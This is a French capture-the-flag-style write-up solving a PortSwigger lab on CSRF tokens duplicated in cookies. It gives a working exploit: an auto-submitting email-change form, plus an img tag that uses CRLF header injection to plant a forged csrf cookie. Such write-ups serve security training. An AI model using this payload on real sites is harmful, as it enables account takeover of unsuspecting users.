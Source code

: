 # Lab

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

## Solution

Sur le lab on peut modifier l'adresse mail de son compte.

La requête de modification de l'adresse mail est sécurisée par un token CSRF présent dans le body et dans les cookies.

Il y a une première vulnérabilité CSRF puisque le token est vérifié uniquement en faisant la comparaison entre le token du body et le token du cookie.

Ce qui veut dire que si on modifie le cookie CSRF, on peut modifier l'adresse mail du compte en formant un requête POST avec le body suivant :

```html
<form method="POST" action="https://0aa1001804a96a9780928a0a00880042.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
    <input type="hidden" name="csrf" value="fake">
</form>
```

En navigant sur le site, on voit que les cookies peuvent être injectés dans les requêtes HTTP via par exemple : `/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None`.

On peut donc injecter le cookie CSRF dans la requête HTTP et modifier l'adresse mail du compte.

```html
<form method="POST" action="https://0aa1001804a96a9780928a0a00880042.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
    <input type="hidden" name="csrf" value="fake">
</form>

<img src="https://0aa1001804a96a9780928a0a00880042.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```